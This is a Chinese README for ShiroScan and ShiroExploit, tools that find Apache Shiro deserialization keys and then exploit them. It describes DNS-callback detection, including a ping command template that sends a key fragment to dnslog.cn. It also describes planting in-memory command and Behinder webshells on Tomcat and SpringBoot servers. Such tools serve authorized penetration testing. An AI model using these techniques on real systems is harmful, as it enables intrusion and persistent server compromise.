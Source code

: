## Shiro反序列化检测工具

**ShiroScan**用于检测存在Shiro反序列化漏洞的key值。有三种方式进行检测，第一种是利用URLDNS进行检测，第二种利用命令执行进行检测，第三种使用`SimplePrincipalCollection`序列化后进行检测（XCheck，即Xray Check）。

![](images/07.png)

### 功能简介

- 默认DNSLOG

选择后会调用`dnslog.cn`的接口，生成一个域名，进行检测后，结果会输出在结果区域。

> 选择该选项时，会有卡顿，正在从`dnslog.cn`获取域名，并显示。

- 自定义DNSLOG

需要自己输入一个dnslog地址，进行检测后去输入的dnslog平台去查看结果

- 使用URLDNS

利用URLDNS进行检测。

参考：https://github.com/LuckyC4t/shiro-urldns/blob/master/src/main/java/luckycat/shirourldns/URLDNS.java

- 使用payloads

通过执行`ping`命令来检测。

- 使用XCheck

通过使用`SimplePrincipalCollection`序列化来进行检测，key正确情况下不返回 **deleteMe** ，key错误情况下返回 **deleteMe** 。

参考：https://mp.weixin.qq.com/s/do88_4Td1CSeKLmFqhGCuQ

### 使用

1.自行打包使用

```bash
git clone https://github.com/fupinglee/ShiroScan
cd ShiroScan
mvn clean package -DskipTests=true
```

打开target下的jar文件即可执行

2.直接下载使用

https://github.com/fupinglee/ShiroScan/releases

### 运行效果

- 使用`默认DNSLOG+URLDNS`进行检测

![使用默认DNSLOG1](images/02.png)

- 使用`自定义DNSLOG+URLDNS`进行检测

![使用自定义DNSLOG1](images/03.png)

- 使用`默认DNSLOG+Payloads`检测


![使用默认DNSLOG2](images/04.png)

> 这里使用的命令是`ping key.substring(0,3)+"."+payload+"."+"dnslog.cn"`

- 使用`自定义DNSLOG+Payloads`检测


![使用自定义DNSLOG2](images/05.png)

- 使用XCheck进行检测

![使用自定义XCheck](images/06.png)



# Shiro反序列化回显工具

### 简介

**ShiroExploit**是Shiro反序列化检测与回显利用工具，ShiroScan是从其中剥离出来的。当前版本v2.3。

https://github.com/fupinglee/JavaTools/tree/master/Shiro#v23

- 支持Tomcat7、8、9下CMD内存shell的写入与卸载，支持Tomcat6、7、8、9下的通用回显。
- 支持Tomcat7、8、9以及SpringBoot下冰蝎内存shell的写入与卸载。

### 使用

直接下载使用

1.https://github.com/fupinglee/ShiroScan/releases/tag/v1.1 选择v2.3版本

2.https://github.com/fupinglee/JavaTools/tree/master/Shiro#v23

### 运行效果

#### **1.回显**

![](images/Shiro回显.png)



#### **2.内存Shell**





![](images/10.png)

使用正确的密码，会执行命令，错误的密码返回正常页面。

![](images/11.png)



**SpringBoot环境下写入冰蝎Shell**

![ShiroExploit](images/21.png)

**使用蚁剑连接**

![ShiroExploit](images/24.png)



更多使用说明参考:https://github.com/fupinglee/JavaTools/blob/master/Shiro/使用说明-v2.3.pdf

> **使用时需要先确定Key和所使用的Gadget，然后加载内存shell。**



## 参考

https://github.com/wh1t3p1g/ysoserial

https://github.com/frohoff/ysoserial

https://github.com/LuckyC4t/shiro-urldns/blob/master/src/main/java/luckycat/shirourldns/URLDNS.java

https://mp.weixin.qq.com/s/do88_4Td1CSeKLmFqhGCuQ

https://github.com/zema1/ysoserial/[通用回显]

## 其他

**仅供安全人员进行有授权的验证,勿用于非法测试**

